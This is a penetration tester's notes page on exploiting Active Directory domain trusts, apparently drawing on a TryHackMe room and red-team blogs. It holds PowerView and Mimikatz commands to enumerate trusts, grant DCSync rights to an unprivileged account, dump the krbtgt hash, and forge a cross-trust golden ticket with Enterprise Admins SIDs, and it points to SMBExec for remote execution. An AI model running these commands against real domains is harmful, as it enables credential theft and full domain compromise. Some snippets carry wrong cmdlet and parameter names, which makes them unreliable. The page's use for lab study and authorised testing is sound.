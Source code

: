 # Active Directory Domain Exploitation

_"Note that the Active Directory domain is not the security boundary; the AD forest is."_ - [Sean Metcalf](https://adsecurity.org/?p=1640)

For [[AD-Forest-Exploitation]] - one day...

#### Trust Definitions

For more depth and related information consider reading [[Active-Directory-Defined]].

Domain Trust Typology:
- Inbound - Domain A  is trusted by Domain B (Domain A gains access to resources in B) 
- Outbound - Domain A trust is outbound to another Domain B (Domain B gains access to resources in A) 
- Bidirectional - Both Domains A and B trust one another both gains access to resources in each other 
- [Transitive](https://learn.microsoft.com/en-us/azure/active-directory-domain-services/concepts-forest-trust) - *"Transitivity determines whether a trust can be extended outside of the two domains with which it was formed.
	- *A transitive trust can be used to extend trust relationships with other domains.*
	- *A non-transitive trust can be used to deny trust relationships with other domains.*"

[harmj0y's](https://blog.harmj0y.net/redteaming/a-guide-to-attacking-domain-trusts/) Domain Trust Attack Strategy
1) Enumerate all trusts 
2) Enumerate all users/groups/computers that either:
	- Have access to resources
	- Are in groups or have users from another domain
3) Perform targeted account compromise 

Enumerate with: Bloodhound, .NET methods,  Win32API, LDAP, PowerView.ps1

[snovvcrash.rocks](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/attack-trusts) + [[PowerView-Cheatsheet]]
```powershell
# Get Child domain FQDN
$env:userdnsdomain
# Get Forest Object
PV2 > Get-NetForest [-Forest megacorp.local]
PV3 > Get-Forest [-Forest megacorp.local]
# Get all domains in a forest:
PV2 > Get-NetForestDomain [-Forest megacorp.local]
PV3 > Get-ForestDomain [-Forest megacorp.local]
# Enumerate trusts for current domain via .NET 
nltest /trusted_domains
# Enumerate trusts via Win32 API (PowerView):
PV2 > Get-NetDomainTrust [-Domain megacorp.local] | ft
PV3 > Get-DomainTrust -API [-Domain megacorp.local] | ft
# Enumerate trusts via LDAP (PowerView):
PV2 > Get-NetDomainTrust -LDAP [-Domain megacorp.local] | ft
PV3 > Get-DomainTrust [-Domain megacorp.local] | ft
```
SIDHistory/ExtraSIDs hopping
```powershell
netdom.exe trust $childDomain.$domain.$tld /domain:$domain.$tld /quarantine
```

#### WriteDACL

`WriteDACL` to a domain, give DCSync rights to an unprivileged domain user account
```powershell
AddDomainObjectAcl -TargetIdentity "DC=,DC=local" -PrincipleIdentity $user -Rights DCSync
# Deprecate way
Add-DomainObjectAcl -Credential $Cred -TargetIdentity $domain.local -Rights DCSync
```

#### Ticket Attacks

Consider your options: [[Silver-Tickets]], [[Golden-Tickets]], [[Diamond-Tickets]] and [[Sapphire-Tickets]], but weight up the Opsec concerns. For a cross-trust [[Golden-Tickets]] with [[Mimikatz-Cheatsheet]] or [[Rubeus-Cheatsheet]]
```powershell
# import-module | . .\PowerView.ps1  -- somehow - beware AMSI and Blue
# Get Child domain FQDN:
PS > $env:userdnsdomain
# Child domain's DC machine account and its RID:
PV2 > (Get-NetComputer -ComputerName DC01.$childDomain.$domain.$tld -FullData | select ObjectSID).ObjectSID
PV3 > (Get-DomainComputer DC01.$childDomain.$domain.$tld | select ObjectSID).ObjectSID

# Get child domain SID
PV > Get-DomainSID
# SID of the parent domain
PS > (New-Object System.Security.Principal.NTAccount("megacorp.local","krbtgt")).Translate([System.Security.Principal.SecurityIdentifier]).Value
# Create ticket with
# Mimkatz 
# Remember to cycle through exfil and catagorise for data handling
privilege::debug
log
token::elevate
!+
lsadump::dcsync /user:$domainTargeting\krbtgt
# Altered From https://tryhackme.com/room/exploitingad
kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:<sid of the child dc> /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
# rubeus
```

####  SMBExec.ps1

If you can cross trust and SMB is open a very non-Opsec safe way would be to use [Invoke-TheHash - InvokeSMBExec](https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-SMBExec.ps1) to perform command execution over the network to remotely to achieve objectives.  


## References

[THM Room Exploiting AD](https://tryhackme.com/room/exploitingad)
[burmat](https://burmat.gitbook.io/security/hacking/domain-exploitation)
[harmj0y's guide to attacking domain trusts](https://blog.harmj0y.net/redteaming/a-guide-to-attacking-domain-trusts/)
[snovvcrash.rocks](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/attack-trusts)
[Sean Metcalf quote](https://adsecurity.org/?p=1640)